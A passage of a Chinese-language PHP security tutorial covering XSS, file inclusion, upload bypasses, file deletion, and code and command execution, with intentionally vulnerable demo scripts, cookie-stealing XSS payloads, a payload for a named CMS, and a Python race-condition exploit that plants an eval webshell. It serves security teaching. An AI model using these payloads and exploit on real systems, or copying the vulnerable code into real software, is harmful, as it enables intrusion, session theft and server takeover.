```

storagexss.php(test on mysql 5.5.38)

```php
\\存储XSS演示
<form action="" method="post">
    <input type="text" name="xss"/>
    <input type="submit" value="test"/>
</form>
<?php
$xss=@$_POST['xss'];
mysql_connect("localhost","root","root");
mysql_select_db("test");
if($xss!==null){
    $sql="insert into xss(id,payload) values(1,'$xss')";
    $result=mysql_query($sql);
    echo $result;
}
?>
```

storagexsshow.php(test on mysql 5.5.38)

```php
<?php
mysql_connect("localhost","root","root");
mysql_select_db("test");
$sql="select payload from xss";
$result=mysql_query($sql);
while($row=mysql_fetch_array($result)){
    echo $row['payload']; 
}
?>
```

storagexss.php post:`<img src=x onerror=alert(document.cookie)>`
访问storagexsshow.php会弹出cookie

恶意利用(以评论区存在存储型xss为例):假如某网站评论区存在xss存储行漏洞,攻击者在评论中插入获取cookie的代码,当每个用户看到此评论时,他们的cookie都会被发送到攻击者服务器。

#### DOM型

没有经过后端,只在前端触发。

数据流向是：URL-->浏览器 

eg:

domxss.php(test on mysql 5.5.38)

```php
<?php
error_reporting(0); //禁用错误报告
$q = $_GET["q"];
?>
<form action="" method="get">
    <input type="text" name="q" id='text' value="<?php echo $q;?>" />
    <input type="submit" value="test"/>
</form>
<div id="print"></div>
<script type="text/javascript">
var text = document.getElementById("text"); 
var print = document.getElementById("print");
print.innerHTML = text.value + ' not found'; // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。
</script>
```

`http://127.0.0.1/domxss.php?q=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E`

恶意利用和反射型xss类似

### 实例

以ESPCMS P8.18101601n 前台XSS为例，问题主要由于错误页面的报错信息未作过滤，造成XSS漏洞。

payload:`http://127.0.0.1/espcms/index.php?ac=%3C/code%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E&at=List&tid=7`



### 防范

- 特殊字符HTML实体编码
- 标签黑白名单(推荐白名单,黑名单可能存在不可预测的绕过)
- 请求头设置HttpOnly属性(cookie不能通过js调用获取)



## 6. 文件操作漏洞

总的来说时因为没有经过严格的验证,操作的文件是否在允许的范围内。

危害:

- 导致恶意文件/代码包含
- 导致敏感文件被读取
- 导致文件被删除
- 导致恶意文件上传

### 分类

#### 文件包含

文件包含分为本地文件包含(local file include)、远程文件包含(remote file include)。文件包含可以导致恶意代码被包含,从而获取webshell

文件包含利用函数:

- include(即使文件被包含过,也会再次包含,包含文件遇到错误代码也会继续执行)
- include_once(文件被包含过了,就不会再次包含,包含文件遇到错误也会继续执行)
- require(即使文件被包含过,也会再次包含,包含文件遇到错误程序直接退出)
- require_once(文件被包含过了,就不会再次包含,包含文件遇到错误程序直接退出)
- ...

本地文件包含(LFI):

只能包含本机文件,大多出现在模块加载、模板加载和cache调用等地方。
本地文件包含方式也有多种,比如上传一个允许上传的文件格式的文件在包含,包含PHP上传的临时文件,webserver记录到日志后在包含webserver的日志,linux下可以包含/proc/self/environ文件等。

eg:
localfileinclude.php(test on php 5.5.38)

```php
<?php
define("ROOT",dirname(__FILE__).'/');
$mod = $_GET['mod'];
echo ROOT.$mod.'.php';
include(ROOT.$mod.'.php');
?>
```

lfishell.php

```php
<?php
echo phpinfo();
?>
```

`http://127.0.0.1/localfileinclude.php?mod=lfishell`

远程文件包含:

可以包含远程文件。需要设置allow_url_include=on。支持http、ftp、php伪协议、zip、file等协议。

eg:

remotefileinclude.php

```php
<?php
include($_GET['url']);
?>
```

使用python开启一个见到的服务器:
`python -m SimpleHTTPServer 8080`

rfi.txt

```php
<?php
echo phpinfo();
?>
```

`http://127.0.0.1/remotefileinclude.php?url=http://127.0.0.1:8080/Desktop/rfi.txt`

使用伪协议(举两个伪协议例子):

php://input

- allow_url_fopen：off/on
- allow_url_include：on
  `http://127.0.0.1/remotefileinclude.php?url=php://input`
  `post: <?php phpinfo();?>`

php://filter

- allow_url_fopen：off/on
- allow_url_include：off/on
  `http://127.0.0.1/remotefileinclude.php?url=php://filter/read=convert.base64-encode/resource=remotefileinclude.php`

截断包含:

00截断(受限于GPC和addslashes等函数影响,php5.3之后也不能使用这个方法,不过现在很少有这个漏洞了):

```php
<?php
include $_GET['a'].'.php';
?>
```

假如你发现了截断包含漏洞,然后又只能上传某些固定后缀的文件,那可以试下00截断

`http://127.0.0.1/truncatedinclude.php?a=aaa.txt%00`

多个`.`和`/`截断,不受GPC限制,但是在php5.3之后修复

#### 文件读取(下载)

程序在下载文件或者读取显示文件的时候,读取文件的参数直接在请求中传递,后台程序获取到这个文件后直接读取返回,问题在于这个参数是用户可控的,可以直接传入想要的文件路径。

文件读取或者下载函数:

- file_get_contents
- high_light
- fopen
- readfile
- fread
- ...

eg:



```php
<?php
$file = file_get_contents($_GET['file']);
echo $file;
?> 
```

`http://127.0.0.1/fileread.php?file=aaa.txt`

#### 文件上传漏洞

如果能把文件上传到管理员或者应用程序不想让你上传的目录,那么就存在文件上传漏洞。

一般的检测流程:

- 客户端javascript校验（一般只校验文件的扩展名）
- 服务端校验
  - 文件头content-type字段校验（image/gif）
  - 文件内容头校验（GIF89a）
  - 目录路经检测（检测跟Path参数相关的内容）
  - 文件扩展名检测 (检测跟文件 extension 相关的内容)
  - 后缀名黑名单校验
  - 后缀名白名单校验
  - 自定义正则校验
- WAF设备校验（根据不同的WAF产品而定）

利用函数:

- move_uploaded_file

##### 客户端校验

jsupload.php(test on php 5.5.38)

```php
<?php
//文件上传漏洞演示脚本之js验证
$uploaddir = 'uploads/';
if (isset($_POST['submit'])) {
    if (file_exists($uploaddir)) {
        if (move_uploaded_file($_FILES['upfile']['tmp_name'], $uploaddir . '/' . $_FILES['upfile']['name'])) {
            echo '文件上传成功，保存于：' . $uploaddir . $_FILES['upfile']['name'] . "\n";
        }
    } else {
        exit($uploaddir . '文件夹不存在,请手工创建！');
    }
    //print_r($_FILES);
}
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
    <title>文件上传漏洞演示脚本--JS验证实例</title>
    <script type="text/javascript">
        function checkFile() {
            var file = document.getElementsByName('upfile')[0].value;
            if (file == null || file == "") {
                alert("你还没有选择任何文件，不能上传!");
                return false;
            }
            //定义允许上传的文件类型
            var allow_ext = ".jpg|.jpeg|.png|.gif|.bmp|";
            //提取上传文件的类型
            var ext_name = file.substring(file.lastIndexOf("."));
            //alert(ext_name);
            //alert(ext_name + "|");
            //判断上传文件类型是否允许上传
            if (allow_ext.indexOf(ext_name + "|") == -1) {
                var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
                alert(errMsg);
                return false;
            }
        }
    </script>
<body>
<h3>文件上传漏洞演示脚本--JS验证实例</h3>


<form action="" method="post" enctype="multipart/form-data" name="upload" onsubmit="return checkFile()">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

`http://127.0.0.1/jsupload.php`

判断方式：
在浏览加载文件，但还未点击上传按钮时便弹出对话框，(进一步确定可以通过配置浏览器HTTP代理（没有流量经过代理就可以证明是客户端JavaScript检测））内容如：只允许传.jpg/.jpeg/.png后缀名的文件，而此时并没有发送数据包。

绕过方法：
将需要上传的恶意代码文件类型改为允许上传的类型，例如将shell.asp改为shell.jpg上传，配置Burp Suite代理进行抓包，然后再将文件名shell.jpg改为shell.asp
上传页面，审查元素，修改JavaScript检测函数（具体方法：可以使用firebug之类的插件把它禁掉）

##### 服务端检测

###### MIME类型检测

MIME的作用：使客户端软件，区分不同种类的数据，例如web浏览器就是通过MIME类型来判断文件是GIF图片，还是可打印的PostScript文件。web服务器使用MIME来说明发送数据的种类， web客户端使用MIME来说明希望接收到的数据种类。

eg:

```php
<?php
if($_FILES['file']['type'] != "image/jpg")
{
    echo "Sorry, we only allow uploading GIF images";
    exit;
}
$uploaddir = './uploads/';
$uploadfile = $uploaddir . basename($_FILES['file']['name']);
if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
{
    echo "File is valid, and was successfully uploaded.\n";
} else {
    echo "File uploading failed.\n";
}
?>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

绕过方法:
配置Burp Suite代理进行抓包，将Content-Type修改为image/gif，或者其他允许的类型

###### 扩展名检测

黑名单检测:

```php
<?php
function getExt($filename){
    //sunstr - 返回字符串的子串
    //strripos — 计算指定字符串在目标字符串中最后一次出现的位置（不区分大小写）
    return substr($filename,strripos($filename,'.')+1);
}
if($_FILES["file"]["error"] > 0)
{
    echo "Error: " . $_FILES["file"]["error"] . "<br />";
}
else{
    $black_file = explode("|","php|jsp|asp");//允许上传的文件类型组
    $new_upload_file_ext = strtolower(getExt($_FILES["file"]["name"])); //取得被.隔开的最后字符串
    if(in_array($new_upload_file_ext,$black_file))
    {
        echo "文件不合法";
        die();
    }
    else{
        $filename = basename($_FILES['file']['name']).".".$new_upload_file_ext;
        if(move_uploaded_file($_FILES['file']['tmp_name'],"uploads/".$filename))
        {
            echo "Upload Success";
        }
    }
}
?>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

apache服务器可能做了配置不会解析特殊扩展名
使用其他服务器复现(我使用的nginx),上传php4扩展名绕过黑名单
`http://127.0.0.1/uploads/shell.php4`

白名单检测:
仅允许指定的文件类型上传，比如仅与需上传jpg | gif | doc等类型的文件，其他全部禁止

绕过方法：

- 文件名大小写绕过
  - 用像 AsP，pHp 之类的文件名绕过黑名单检测
- 名单列表绕过
  - 用黑名单里没有的名单进行攻击，比如黑名单里没有 asa 或 cer 之类
- 特殊文件名绕过
  - 比如发送的 http 包里把文件名改成 test.asp. 或 test.asp_(下划线为空格)，这种命名方式 在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改，然后绕过验证后，会被windows 系统自动去掉后面的点和空格，但要注意 Unix/Linux 系统没有这个特性
- 0x00截断
  - 文件名后缀就一个%00字节，可以截断某些函数对文件名的判断。在许多语言函数中处理函数中，处理字符串中(php版本需要小于5.3.4,magic_quotes_gpc=Off)

###### 文件内容检测

文件头检测:

- JPG: FF D8 FF E0 00 10 4A 46 49 46
- GIF: 47 49 46 38 39 61 (GIF89a)
- PNG: 89 50 4E 47
  绕过方法:
  添加头对应的文件头伪造

文件相关信息检测:

- 检查图片大小、尺寸等的信息。
  绕过方法:
  将代码注入到正常文件中(比如图片马:copy /b 1.jpg+2.php)

###### 竞争上传

当文件上传到服务器,先暂时保存,在检查是不是符合条件,如果不符合再删掉。
利用思路就是我们用多线程不断上传.php文件,在某个没有被删除的时刻如果访问到了.php文件,就生成一个shell,shell就会存到服务器。

eg:

competionupload.php(test on php 5.5.38)

```php
<?php
if ($_POST['submit']){
    $allowtype = array("gif","png","jpg");
    $size = 10000000;
    $path = "./uploads/";
    $filename = $_FILES['file']['name'];
    if(is_uploaded_file($_FILES['file']['tmp_name'])){
        if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
            die("error:can not move");
        }
    }else{
        die("error:not an upload file！");
    }
    $newfile = $path.$filename;
    echo "file upload success.file path is: ".$newfile."\n<br />";
    if($_FILES['file']['error']>0){
        unlink($newfile);
        die("Upload file error: ");
    }
    $ext = array_pop(explode(".",$_FILES['file']['name']));
    if(!in_array($ext,$allowtype)){
        unlink($newfile);
        die("error:upload the file type is not allowed，delete the file！");
    }
}
?>


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="file"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

exp.py

```python
import os
import requests
import threading
import random
import string

exp_name = ''.join(random.sample(string.ascii_letters + string.digits,10))
shell_name = ''.join(random.sample(string.ascii_letters + string.digits,10))

# 按照自己的环境修改url
upload_url = 'http://127.0.0.1/competionupload.php'
exp_url = 'http://127.0.0.1/uploads/{}.php'.format(exp_name)
shell_url = 'http://127.0.0.1/uploads/{}.php'.format(shell_name)

exp_content = ('<?php fputs(fopen("{}.php", "w"), '
               '\'<?php @eval($_POST["qqq"]) ?>\'); ?>')
exp_content = exp_content.format(shell_name)

def upload():
    while True:
        print('[+] upload file...')
        data = {'submit':'上传'}
        files = {"file":('{}.php'.format(exp_name),exp_content)}
        resp = requests.post(upload_url,files=files,data=data)

def get():
    while True:
        print('[+] get shell file...')
        requests.get(exp_url)
        resp = requests.get(shell_url)
        if resp.status_code == 200:
            print('[*] create {}.php success'.format(shell_name))
            os._exit(0)

def main():
    threads = []

    try:
        # 线程数也可以自己修改,我这里只是开太多线程本地服务器扛不住
        for i in range(3):
            t = threading.Thread(target=get,args=())
            threads.append(t)
            t.start()

        for i in range(5):
            t = threading.Thread(target=upload,args=())
            threads.append(t)
            t.start()        

        for thread in threads:
            thread.join()
    except Exception as e:
        print(str(e))

if __name__ == "__main__":
    main()
```

可以参考[上面讲了19种情景的bypass方法](http://www.lmxspace.com/2018/06/12/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9Ewriteup/)

#### 文件删除

文件删除漏洞出现在有文件管理功能的应用上很多,这些应用一般都有文件上传和读取等功能。漏洞利用原理和文件读取差不多,只是利用函数不一样。一般是因为删除文件的文件名可以用../跳转,或者没有限制当前用户只能删除他该有权限删除的文件。php中这个漏洞函数通常是unlink()

eg:

```php
<?php
$basedir = './uploads/';
if(isset($_GET['action']) && $_GET['action'] == 'delete'){
    $filename = isset($_GET['filename'])?$_GET['filename']:'';
    if($filename){
        unlink($basedir.$filename);
    }
}
?>
```

`http://127.0.0.1/filedelete.php?action=delete&filename=../../../../../../../test.txt`

### 例子



### 防范

通用防范:

- 对权限管理要合理,比如用户A上传的文件,不能被同权限的B用户删除。特殊文件操作需要特权用户才能操作,比如后台删除文件的操作,肯定需要限制管理员才能操作。
- 有的文件操作不需要直接传入文件名,比如下载文件时,可以将文件名、路径、ID(MD5形式)及文件上传用户存入数据库中,操作时根据文件ID和当前用户名去判断当前用户有没有权限操作改文件。
- 避免目录跳转。禁止`..`、`/`、`\`来跳转目录

## 7. 代码执行

代码执行漏洞指应用程序本身过滤不严,用户可以通过请求将代码注入到应用中执行。这种漏洞如果没有进行特殊过滤,相当于一个web后门的存在。

php中导致该漏洞的函数:

- eval
- assert
- preg_replace
- call_user_func
- call_user_func_array
- array_map
- php动态函数($a($b))
- ...

eval()和assert()函数导致的代码执行漏洞大多数是因为载入缓存或者模板以及对变量的处理不严格导致,比如直接把一个外部可控的参数拼接到模板里面，然后调用这两个函数去当成php代码执行。

eg:

```php
<?php
function action_a(){
    echo 'call action_a method';
}
function action_b(){
    echo 'call action_b method';
}
$a = $_GET['m'];
eval('action_'.$a.'();');
?>
```

`http://127.0.0.1/codexec_eval.php?m=b`

`http://127.0.0.1/codexec_eval.php?m=b();phpinfo();//`



preg_replace()函数(__php5.5之前可用__)导致代码执行需要存在`/e`参数，这个函数原本是用来处理字符串的，因此漏洞出现最多的是在对字符串的处理，比如URL、HTML标签及文章内容过滤等地方。

eg:

```php
<?php
$html_body = '<a {${phpinfo()}}></a>';
var_dump(preg_replace("#(</?)(\w+)([^>]*>)#e",
              '"\\1".strtoupper("\\2")."\\3"',$html_body));
?>
```

`http://127.0.0.1/codexec_preg.php`



由于php特性的原因，php函数可以直接由字符串拼接，导致动态执行函数。

eg:

```php
<?php
$_GET['a']($_GET['b']);
?>
```

`http://127.0.0.1/codexec_dynfunc.php?a=assert&b=phpinfo()`

还有其他函数，可以自行查阅



### 例子



### 防范



实际环境中可以结合正则表达式使用白名单对参数过滤



## 8. 命令执行



代码执行是指可以执行代码，命令执行是可以执行系统命令(比如CMD或者BASH命令)。php命令执行是继承webserver用户权限。

php命令执行函数:

- system
- exec
- shell_exec
- passthru
- pcntl_exec
- popen
- proc_popen
- \`



eg:

```php
<?php
system('whoami');
popen('whoami >> ./aaa.txt','r');
echo `whoami`;
?>
```



### 例子



### 防范



- 使用escapeshellcmd、escapeshellarg防止命令注入
- 参数白名单
